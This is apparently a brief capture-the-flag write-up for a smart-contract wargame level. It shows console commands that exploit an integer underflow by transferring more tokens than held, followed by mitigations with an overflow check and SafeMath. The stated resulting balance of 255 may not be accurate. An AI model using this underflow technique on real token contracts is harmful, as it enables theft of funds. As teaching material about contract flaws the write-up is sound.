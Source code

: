 This contract is susceptible to overflow and underflow attacks.

There is no condition/safemath functions/check before performing mathematical calculations.

Therefore to expoit this contract, I need to transfer more tokens than I have.

### Steps

Find out how many tokens I have. 
```await contract.balanceOf(player)```

I have 20. So transfer 21 or more tokens to any address.
```await contract.transfer('0x69F1977310B0c02248D631671AF7211E2e175937', 21)```

Check balance again as the underflow should set my balance to 255.
```await contract.balanceOf(player)```

Easy to avoid over/underflow exploits by using a condition such as:
```
if(a + c > a) {
  a = a + c;
}
```
Or OpenZeppelin SafeMath lib:
```
a = a.add(c);
```
